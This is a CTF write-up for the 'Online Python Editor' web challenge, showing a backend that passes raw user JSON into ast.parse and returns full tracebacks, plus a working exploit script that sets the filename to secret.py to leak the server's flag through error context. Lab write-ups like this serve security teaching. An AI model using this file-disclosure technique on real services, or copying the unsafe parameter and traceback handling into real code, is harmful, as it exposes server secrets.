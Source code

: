 # Python Syntax Checker - CTF Challenge Writeup

## Challenge Information
- **Name**: Online Python Editor
- **Points**: 50
- **Category**: Web
- **Solves**: 92
- **Solved by**: Trendo
- **Challenge URL**: http://python.ctf.theromanxpl0.it:7001/

![image](https://github.com/user-attachments/assets/7ef50601-6533-4dd0-8990-c2713a18e832)


## Challenge Description
*"If you're tired of fast and good-looking editors, try this. Now with extra crispiness!"*

The challenge presents a deliberately "not good-looking" online Python editor that performs syntax checking on user input. Behind the scenes, it uses Python's `ast.parse()` function to validate code. The goal is to extract a flag stored in a `secret.py` file on the server.

## Technical Analysis

### Application Architecture
The application consists of several key components:

1. **Frontend (`index.html`)**
   - Provides a web-based Python code editor
   - Uses CodeMirror for syntax highlighting
   - Implements debounced syntax checking

2. **Backend (`app.py`)**
   ```python
   @app.post("/check")
   def check():
       try:
           ast.parse(**request.json)
           return {"status": True, "error": None}
       except Exception:
           return {"status": False, "error": traceback.format_exc()}
   ```

3. **Target File (`secret.py`)**
   ```python
   def main():
       print("Here's the flag: ")
       print(FLAG)
       
   FLAG = "TRX{fake_flag_for_testing}"
   main()
   ```

### Vulnerability Analysis

1. **Unsafe Parameter Handling**
   - The application accepts a `filename` parameter in the JSON payload
   - No sanitization is performed on the filename
   - The `ast.parse()` function receives raw user input

2. **Information Disclosure**
   - Error messages include full traceback information
   - File contents are exposed in error contexts
   - No sanitization of error messages before sending to client

## Exploitation

### Exploit Method

The exploit leverages two key vulnerabilities:
1. Control over the `filename` parameter to target `secret.py`
2. Error message leakage that reveals file contents

### Exploit Script
```python
import requests

TARGET_URL = "http://localhost:3000/check"

# Payload crafted to match secret.py structure
payload = {
    "source": (
        "def main():\n"
        '    print("Here\'s the flag: ")\n'
        "    print(FLAG)\n\n"
        "FLAG = \"TRX{real_flag}\"\n"  
        "invalid syntax"  # Force error after flag declaration
    ),
    "filename": "secret.py"
}

response = requests.post(TARGET_URL, json=payload)
error = response.json().get("error", "")

# Extract flag from error context
if "FLAG =" in error:
    flag_line = [line for line in error.split('\n') if 'FLAG =' in line][0]
    flag = flag_line.split('"')[1]
    print(f"FLAG CAPTURED: {flag}")
else:
    print("Error context analysis failed. Full response:")
    print(error)
```

### Exploit Breakdown

1. **Payload Structure**
   - Mirrors the structure of `secret.py`
   - Includes a deliberate syntax error after the FLAG declaration
   - Uses proper string escaping to maintain valid syntax until the target line

2. **Error Triggering**
   - The syntax error is positioned to occur after the FLAG variable definition
   - This causes Python to include the surrounding context in the error message
   - The context includes the actual flag value from the server's `secret.py`

3. **Flag Extraction**
   - The script parses the error message for lines containing "FLAG ="
   - Extracts the flag value from between quotation marks
   - Handles potential parsing failures gracefully

## Flag
`TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`
